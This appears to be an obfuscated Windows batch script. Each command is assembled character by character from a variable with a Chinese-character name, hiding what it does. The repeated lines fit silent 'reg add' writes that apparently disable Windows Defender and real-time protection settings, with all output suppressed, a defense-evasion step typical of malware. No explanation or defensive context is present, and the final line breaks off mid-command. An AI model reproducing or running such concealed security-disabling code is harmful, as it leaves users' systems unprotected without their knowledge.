%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~42,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~49,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~30,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~30,1%%维色豆克埃维饿维克爱:~10,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "0" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~10,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~49,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "0" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%-%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1% %维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~24,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~30,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%-%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1% %维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~39,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~42,1%%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%-%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1% %维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% 